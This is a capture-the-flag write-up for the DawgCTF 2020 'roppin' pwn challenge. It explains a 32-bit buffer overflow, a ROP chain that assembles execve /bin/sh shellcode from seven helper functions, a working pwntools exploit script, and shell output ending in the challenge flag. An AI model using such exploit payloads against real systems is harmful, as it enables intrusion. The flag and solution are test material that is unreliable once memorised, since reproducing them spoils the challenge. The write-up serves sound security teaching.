




# DawgCTF 2020

## Where we roppin boys?

> 350
>
> Forknife is still a thing right?
>
> `nc ctf.umbccd.io 4100`
> 
>Author: trashcanna
>
> [rop](rop)

Tags: _pwn_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra

There are three primary functions of interest: `welcome`, `tryme`, and `win`.

Main starts with `welcome`:



Well, there's an invitation: `shellcode`. `shellcode` is a pointer to a region of memory allocated by `mmap` that is `0x1c` (28) bytes in length and setup for R/W access only (the `3` is `PROT_READ|PROT_WRITE`, IOW `1|2`).  The rest of the `mmap` parameters are less interesting.



There's a buffer overflow vulnerability at line 9.  `fgets` will read 24 (`0x19 - 1`) characters filling up `local_10`, then the pushed `ebx` (standard for x86 32-bit), then the saved base pointer, then finally the return address, with 4 bytes to spare for a 2nd return address, IOW ROP (the binary is called `rop` after all).



`win` starts off by setting the memory `shellcode` points to, to allow execution (`PROT_EXEC` (4)), then executes it.  Now shellcode is an option (only in this region of memory).

Clearly we want to call `win` with some shellcode.

_But wait!  There's more._

There are 7 other, nearly identical functions that look similar to:



This function sets `iVar4` to the address (`0x8049385`) of the instruction after the call to `__x86.get_pc_thunk.ax()`:

```
08049380 e8 b0 03 00 00       CALL       __x86.get_pc_thunk.ax
08049385 05 7b 2c 00 00       ADD        EAX,0x2c7b
```

`iVar4` (`0x8049385`) + `0x2cb3` is then compared with `0x17` (23), and if greater-than, then the function just returns.

Checking `0x8049385` + `0x2cb3` or `0x804c038` with Ghidra reveals a 4-byte global labeled as `len`:

```
                     len
0804c038                 undefined4 ??
```

If `len` is not greater-than `0x17` (23), then `shellcode[len++] = 0x31`, `shellcode[len++] = 0xc0`, and so on.

There are a total of 7 of these functions that populate the memory pointed to by `shellcode`:

```
dusty_depot:   0x0b 0xcd 0x80 0x31
greasy_grove:  0x6e 0x89 0xe3 0x89
junk_junction: 0x2f 0x2f 0x73 0x68
lonely_lodge:  0xc1 0x89 0xc2 0xb0
loot_lake:     0xc0 0x40 0xcd 0x80
tilted_towers: 0x31 0xc0 0x50 0x68
snobby_shores: 0x68 0x2f 0x62 0x69
```

Calling any of these will just `shellcode[len++] = byte` for each of the four hardcode bytes in the function.

These bytes are shellcode, but what is not obvious is the order in which each function needs to be called to generate useable shellcode, and which ones are required, and if some are called more than once.

> After the 6th call to one of these functions `len` will be 24.

I'm not a shellcode expert to I looked some up and found this: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

This is not an exact match with the options presented, but good enough to muddle through.  You can do this yourself as well.  Based on my obversations I went with the following order:

```
'tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot'
```

`loot_lake` was not required.

`tryme` above only has room for 2, so repeated calls to `tryme` will be required.
 

### Exploit

```
from pwn import *

binary = ELF('rop')

p = process('./rop')
#p = remote('ctf.umbccd.io', 4100)
p.recvuntil('boys?\n')

rops = ['tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot','win']

for i in rops:
	payload  = 8 * b'A'
	payload += p32(binary.symbols['_GLOBAL_OFFSET_TABLE_'])
	payload += 4 * b'B'
	payload += p32(binary.symbols[i])
	payload += p32(binary.symbols['tryme'])
	p.send(payload)

print(p.interactive())
```

When the binary starts you'll end up at the `fgets` in `tryme` waiting for input.

For each function the payload is setup to:

* send 8 `A`s (`local_10`)
* then 4 bytes for the value that will be copied back into `ebx` before the function `leave`s and `ret`urns (this is required for ASLR/PIE enabled binaries, however, for this exploit any value will do, but it's good to be in the habit of setting `ebx` to the address of the GOT before end of function (also required is the base process address if PIE enabled))
* then 4 bytes to overwrite the saved based pointer
* then the function (`rops`) to call overwriting the return address
* then the function (`tryme`) to call overwriting the previous function return address.

It is critical to use `p.send()` vs. `p.sendline()` since `fgets` is setup to only read 24 characters.  `p.sendline()` will send a 25th char (`\n`), that will be picked up on the next call to `tryme` and will spoil your attack.


#### Output

After getting a remote shell, get the flag (while you're there, poke around a bit as well :-):

```
root@bf0bd4081cb8:/pwd/datajerk/dawgctf2020/roppin-boys# ./exploit.py
[*] '/pwd/datajerk/dawgctf2020/roppin-boys/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challuser) gid=1000(challuser) groups=1000(challuser)
$ ls
flag.txt  rop
$ ls -l
total 20
-r--r----- 1 root challuser    22 Mar 26 14:34 flag.txt
-rwxr-xr-x 1 root challuser 15868 Mar 26 14:34 rop
$ cat flag.txt
DawgCTF{f0rtni9ht_xD}
```

#### Flag

```
DawgCTF{f0rtni9ht_xD}
```
